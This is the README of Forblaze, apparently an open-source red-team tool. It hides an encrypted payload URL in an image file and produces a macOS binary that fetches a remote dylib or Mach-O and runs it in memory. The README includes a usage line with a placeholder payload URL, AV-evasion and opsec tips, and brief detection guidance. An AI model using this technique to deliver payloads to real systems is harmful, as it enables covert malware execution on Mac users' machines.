 # Forblaze - A Python Mac Steganography Payload Generator
Author: AsaurusRex

## Disclaimer
DO NOT use this project for purposes other than legitimate red teaming/pentesting jobs, or research.  DO NOT use this for illegal activity of any kind, and know that this project is intended for research purposes and to help advance the missions of both red and blue teams.  

## Blog Post
For the blog post regarding Forblaze, check out https://medium.com/@marcusthebrody/forblaze-a-mac-stego-payload-generator-aaa7e7775571

## Purpose
Forblaze is a project designed to provide steganography capabilities to Mac OS payloads.  Using python3, it will build an Obj-C file for you which will be compiled to pull desired encrypted URLs out of the stego file, fetch payloads over https, and execute them directly into memory.  It utilizes custom encryption - it is not cryptographically secure, but purely to thwart analysis by AV engines.  It is a slight deviation on my previously built custom encryption for Windows, called Rubicon, and is more simple in practice.  Forblaze utilizes header and footer bytes to identify where in the stego file your encrypted bytes are, and then decrypts them with a hard-coded key in compile_forblaze.m.  This key can be saved and re-used, with the effect that a different URL could be used to fetch a different payload, and the same compiled forblaze should still be able to execute and process it (provided the header and footer bytes aren't changed, and the new stego file is uploaded to the correct location.) 

## Requirements:
Python3 (only tested with Python3.9+), and some associated Python libraries - pip3 should take care of any python dependencies you need.  In addition, clang will be used for compilation, and forblaze should be run on a mac so that forblaze can be correctly compiled.  

## Usage

usage: forblaze_url.py [-h] [-innocent_path PATH] [-o OUTPUT] [-len_key LENGTH_OF_KEY] [-compile_file COMPILE_FILE]
                       [-url_to_encrypt URL] [-supply_key SUPPLIED_KEY] [-stego_location STEGO_LOCATION]
                       [-compiled_binary COMPILED_BINARY]

Generate stego for implants.

optional arguments:

  -h, --help            show this help message and exit

  -innocent_path PATH   Provide the full path to the innocent file to be used.

  -o OUTPUT             Provide the path where you want your stego file to be placed.

  -len_key LENGTH_OF_KEY
                        Provide a positive integer that will be the length of the key in bytes. Default is 16. Must be between 10 and 150 bytes.


  -url_to_encrypt URL   Provide the URL you want to stick inside the compile file.

  -supply_key SUPPLIED_KEY
                        If you wish to use a specific key, provide it here. It must be in the format: -supply_key "\\x6e\\x60\\x..." - aka two double slashes are needed between each byte,
                        or else it WILL NOT WORK.

  -stego_location STEGO_LOCATION
                        You must provide a location on target where the stego file will reside. It is wise to follow strict full paths: /Users/<>/Documents/file.jpg for example.

  -compiled_binary COMPILED_BINARY
                        Give the name of the compiled binary to extract the URL and run code in memory from the stego file. The default is forblaze.

  -method METHOD        Select which method you wish to use. Method 1 relies on executing a dylib directly into memory, and works with Go payloads as well as regular payloads. Method 2
                        relies on executing a macho file directly into memory, but does not work with Go compiled payloads. Method 3 is method 1 but relies on fetchting the decrypting key
                        over a server, which is more opsec friendly. The default method is 1. NOTE: You still might need to edit the 'module' (aka RunMain) manually depending on your
                        execution method!

  -key_url KEY_URL      Provide the URL to the key to decrypt the stego file.

```
  python3 forblaze_url.py -innocent_path Land-of-Belle.jpeg -o my_evil_pic.jpeg -len_key 24 -url_to_encrypt "https://your-example.com/test-payload.dylib" -method 1 -stego_location /tmp/my_not_evil_pic.jpeg  -compiled_binary innocent_binary
```

## Opsec Concerns
Honestly, not too many.  Mac OS detections are still pretty poor, especially for in-memory activity.  As an exercise for the reader, you could also call payload bytes directly vs a URL with some slight modifications to this code.  However, depending on the size of your payload, the encryption piece in the python script might take an unacceptably long time to complete.  

Note: since this code compiles to a Mach-O binary (not a dylib, although that can be changed pretty easily in the code), controls like Gatekeeper will prevent it from executing by default unless you can sign the payload or remove the quarantine attribute.  

I would recommend changing things like the number of random bytes generated from the default, and changing the default header and footer bytes that forblaze uses to find the payload in the stego file (as well as the length of those header and footer bytes to perhaps be more inconspicuous). 

For the best OpSec, I recommend fetching your decryption key from an external server you control - then you can control access to that key strictly, making RE much more difficult.

## Detection/Prevention
Steganography is pretty difficult to detect.  If you know where the stego file is, you can begin to extract the suspect bytes after the end of the normal file EOF (so after "FFD9" for jpegs for example).  These suspect bytes will still include the actual encrypted payload and nonsense random bytes, which would be hard to distinguish from each other unless you possess the header and trailing bytes specified by Forblaze.  You could look through these bytes and look for patterns of repeating bytes, since this is how the header and footer bytes with forblaze tend to work, but a skilled operator could make that more difficult to find than the default.  If a payload is caught you could obviously RE the binary and try to locate the stego file, and then try to use the hard-coded key and headers/footers to reverse the URL being called (or other bytes).  But that all assumes you found the binary by some other means.  


## Testing 
This tool has been tested on various versions of Mac OS, including Big Sur and Catalina (x64 systems).  Please let me know if you have problems. 

## Technical Nitty Gritty

The custom encryption is a basic Caesar cipher, where different bytes of the key are used to shift the bytes of your plaintext bytes.  This is why larger keys aren't NECESSARILY better for your encryption - it depends on the length of your plaintext.  If your plaintext is 50 bytes, and you use a 150 byte key, only the first 50 bytes of your key will be used.  If your plaintext is > 150 bytes however, the longer keys would be more secure.  

The steganography is quite simple: the bytes of your original innocent file  are kept the same, and random bytes (along with your encrypted payload bytes) are appended after these bytes.  These random bytes are by default anywhere between 2 and 2000 in length (this should likely be changed to fit your plaintext size -> larger plaintexts should mean more random bytes are generated).  

The in-memory execution piece is following https://blogs.blackberry.com/en/2017/02/running-executables-on-macos-from-memory, as well as the maisal loader (can't find the link at the moment), with the simple change that instead of reading payload bytes from an on-disk file, they are read over http/https.    


## Contributions/Comments/Criticisms
I am very open to receiving comments and to collaboration!  Hopefully this helps generate useful discussion around the topic of custom crypto, or provides researchers some new insights.  
